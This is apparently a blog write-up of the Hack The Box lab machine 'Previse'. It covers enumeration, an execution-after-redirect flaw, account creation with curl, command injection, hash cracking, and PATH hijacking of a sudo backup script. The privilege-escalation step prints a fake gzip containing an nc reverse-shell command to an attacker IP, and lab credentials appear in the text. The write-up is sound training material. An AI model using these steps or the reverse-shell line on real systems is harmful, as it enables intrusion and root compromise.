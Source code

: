 ```yaml
---
title: "Hack The Box - Previse"
date: 2023-02-08T22:18:53+00:00		
categories:
  - hackthebox
tags:
  - redteam
  - pentest
  - hackthebox
---
```


Hi again, today I want to share my writeup on the Easy box "Previse" from Hack The Box, it contains a web application that has broken access control which allows anyone to add a new user and download the source code of the web application. After reading the source code we know that it is vulnerable to command injection which allows us to gain RCE.

After getting our foothold, we can extact and crack password hash that is stored in the local database, and finally perform path injection to escalate our privilege.

# Enumeration

## nmap scan

```sh
└─$ sudo nmap -sC -sV -p22,80 10.10.11.104 -oA nmap/previse                                        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 21:11 EDT
Nmap scan report for 10.10.11.104
Host is up (0.078s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.72 seconds

```

We have a HTTP server running on target, I notice the file extension is php, let's try to run gobuster with php extension.

## Gobuster result

```sh
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]                   
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/download.php         (Status: 302) [Size: 0] [--> login.php]                 
/favicon.ico          (Status: 200) [Size: 15406]                             
/files.php            (Status: 302) [Size: 4914] [--> login.php]              
/footer.php           (Status: 200) [Size: 217]                               
/header.php           (Status: 200) [Size: 980]                               
/index.php            (Status: 302) [Size: 2801] [--> login.php]              
/index.php            (Status: 302) [Size: 2801] [--> login.php]              
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
/login.php            (Status: 200) [Size: 2224]                              
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/logs.php             (Status: 302) [Size: 0] [--> login.php]                 
/nav.php              (Status: 200) [Size: 1248]                              
/server-status        (Status: 403) [Size: 277]                               
/status.php           (Status: 302) [Size: 2966] [--> login.php]            
```

We have a login page

![photo1](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902211327.png)

If we try to visit the index page, we will get redirect to login.php, so what if we do not follow the redirect? This is in fact a Execution After Redirect (EAR) vulnerability, the server redirect user **AFTER** checking if he is a valid user.

https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR)


Here I use burp suite to capture the request and see what is inside the index page

![photo2](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902215246.png)

# Foothold

We can use this trick to view other pages as well

In status.php, we learned that mysql server is running on target.

![photo3](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902215604.png)

In accounts.php, I learned that it is possible to add a new user

![photo4](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902220353.png)

Let's try to use curl to add a new user

```bash
curl -X POST http://10.10.11.104/accounts.php? --data "username=octopus&password=octopus&confirm=octopus"
```
![photo5](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902220325.png)

Now we can login to it and download siteBackup.zip, it contains the source code of the web application running on the server.


We can find the database user credential in the file config.php
```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

In file logs.php, I found an injection point where the url parameter 'delim' is passwed to the python execute() function

![photo6](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902221225.png)

We can try to gain RCE from this vulnerability

![photo7](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902221439.png)

Woo, we got a shell as www-data!

![photo8](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902221504.png)

# User

Always check the ports, here we can find mysql is running locally

![photo9](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902222302.png)

Login to mysql with the password we found in config.php

Got password hash for user m4lwhere and corrupted

![photo10](/assets/images/2023-02-08-htb-previse/Pasted_image_20210902224012.png)

Let's use john to crack it

we got the password for user corrupted ==> offset

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash
```

Got the cred! We can login to this user :)
m4lwhere:ilovecody112235!


# Priv Esc

Looking around the file system, came across an interesting script access_backup.sh. From the comment I learned that this script is possibly run by root

```sh
m4lwhere@previse:/opt/scripts$ cat access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

```

Always good to check user privilege:)

![photo11](/assets/images/2023-02-08-htb-previse/Pasted_image_20210903001811.png)

In the script access_backup.sh the PATH of gzip is not indicated, that means we can create another file name gzip and modify the path variable to execute this file instead of the intended one.

```sh
m4lwhere@previse:/tmp$ cat gzip
#!/bin/sh
nc -e /bin/bash 10.10.14.4 4444
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
```

rooted, ggs.
![photo12](/assets/images/2023-02-08-htb-previse/Pasted_image_20210903005910.png)